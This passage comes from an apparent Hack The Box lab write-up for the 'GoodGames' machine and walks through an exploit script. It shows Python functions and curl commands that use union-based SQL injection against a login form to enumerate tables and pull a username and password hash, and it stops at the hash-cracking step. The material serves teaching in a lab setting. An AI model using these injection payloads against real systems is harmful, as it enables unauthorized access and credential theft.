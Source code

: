 ```python
```

Now I will explain each step of the exploit.

- Union based SQL injection:

```python
def exploit_sqli() -> Tuple[str, str]:
    database = do_sqli('database()')
    log.info(f'Found database: {database}')
    table_names = do_sqli(
        f"group_concat(table_name) from information_schema.tables where table_schema='{database}'")
    table_name = 'user'
    log.info(f'Found tables: {table_names}. Using: {table_name}')
    column_names = do_sqli(
        f"group_concat(column_name) from information_schema.columns where table_name='{table_name}'")
    columns = ('name', 'password')
    log.info(
        f'Found columns: {column_names}. Using: {",".join(columns)}')
    row_value = do_sqli(
        f"concat({columns[0]},0x20,{columns[1]}) from {table_name} limit 1")

    return tuple(row_value.split())
```

As shown in the [write-up](https://7rocky.github.io/en/htb/goodgames), the website is vulnerable to Union-based SQL injection in the fourth column;

```console
$ curl 10.10.11.130/login -sd "email=' union select 111,222,333,444-- -&password=x" | grep -E '111|222|333|444'  
                    <h2 class="h4">Welcome 444</h2>
```

Using this, we can inject SQL queries at the fourth position:

```console
$ curl 10.10.11.130/login -sd "email=' union select 1,2,3,database()-- -&password=x" | grep Welcome  
                    <h2 class="h4">Welcome main</h2>
```

In the Python script, we use Regular Expressions (module `re`) to take only the results of the query:

```python
def do_sqli(query: str) -> str:
    payload = f"' union select 1,2,3,{query}-- -"
    r = requests.post(f'{URL}/login', data={'email': payload, 'password': 'x'})

    return re.findall(r'<h2 class="h4">Welcome (.*?)</h2>', r.text, flags=re.DOTALL)[0]
```

There is a username and a hashed password inside the database.

- Pasword hash cracking:
